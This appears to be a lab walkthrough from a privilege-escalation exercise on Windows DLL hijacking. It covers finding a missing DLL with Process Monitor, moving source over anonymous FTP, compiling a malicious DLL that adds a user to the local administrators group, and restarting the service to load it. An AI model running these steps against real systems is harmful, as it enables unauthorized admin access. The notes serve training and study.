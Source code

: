#Windows #PrivEsc #DLLHijacking #x86_64-w64-mingw32-gcc #gcc-mingw-w64 #sc #procmon #ProcessMonitor

**Detection**

Windows VM

1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  
2. In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on `Procmon.exe` and select ‘Run as administrator’ from the menu.  
3. In `procmon`, select "filter".  From the left-most drop down menu, select ‘Process Name’. 
4. In the input box on the same line type: `dllhijackservice.exe`  
5. Make sure the line reads “Process Name is `dllhijackservice.exe` then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  
6. Next, select from the left-most drop down menu ‘Result’.  
7. In the input box on the same line type: `NAME NOT FOUND`  
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  
9. Open command prompt and type: `sc start dllsvc`  
10. Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘`C:\Temp\hijackme.dll`’ yet it could not do that as the file was not found. Note that ‘`C:\Temp`’ is a writable location.

**Exploitation**

Windows VM

1. Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_dll.c`’ to the Kali VM.
	- Create a python ftp server on LHOST using `pyftpdlib`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m pyftpdlib -p 21 --write       
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-10-08 08:53:29] concurrency model: async
[I 2024-10-08 08:53:29] masquerade (NAT) address: None
[I 2024-10-08 08:53:29] passive ports: None
[I 2024-10-08 08:53:29] >>> starting FTP server on 0.0.0.0:21, pid=715492 <<<

```
- Transfer file from RHOST to LHOST - with `cmd.exe` in directory of file to transfer to LHOST:
```
... [Windows RHOST as user]

> ftp [LHOST IP - Kali VM]

ftp> anonymous:anonymous

ftp> put windows_service.c

... [Kali VM - ftp server] ...

[I 2024-10-08 09:02:07] 10.10.53.82:49232-[] FTP session opened (connect)
[I 2024-10-08 09:02:12] 10.10.53.82:49232-[anonymous] USER 'anonymous' logged in.
[I 2024-10-08 09:02:20] 10.10.53.82:49232-[anonymous] STOR /root/Downloads/windows_dll.c completed=1 bytes=417 seconds=0.488

```

Kali VM

1. Open `windows_dll.c` in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`  
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`  
3. Copy the generated file `hijackme.dll`, to the Windows VM.

Windows VM

1. Place `hijackme.dll` in ‘`C:\Temp`’.  
2. Open command prompt and type: `sc stop dllsvc & sc start dllsvc`  
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`
